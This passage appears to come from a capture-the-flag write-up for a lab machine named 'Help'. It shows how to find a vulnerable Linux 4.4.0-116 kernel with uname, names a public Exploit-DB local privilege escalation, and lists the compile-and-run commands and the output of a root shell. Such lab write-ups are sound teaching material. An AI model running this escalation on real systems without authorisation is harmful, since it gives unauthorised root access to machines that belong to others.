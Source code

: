 ## Root Shell

We can run <b>uname</b> to get kernel information. It turns out that the kernel is vulnerable to a local privilege escalation according to 
<a href="https://www.exploit-db.com/exploits/44298" target="_blank">https://www.exploit-db.com/exploits/44298</a>.

```bash
help@help:/home/help$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

We can copy and paste the exploit into <b>help-pe.c</b>, compile, and run with the following commands.

```bash
help@help:/home/help$ gcc help-pe.c -o help-pe
help@help:/home/help$ ./help-pe
task_struct = ffff88003699aa00
uidptr = ffff880037018784
spawning root shell
root@help:/home/help# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
```
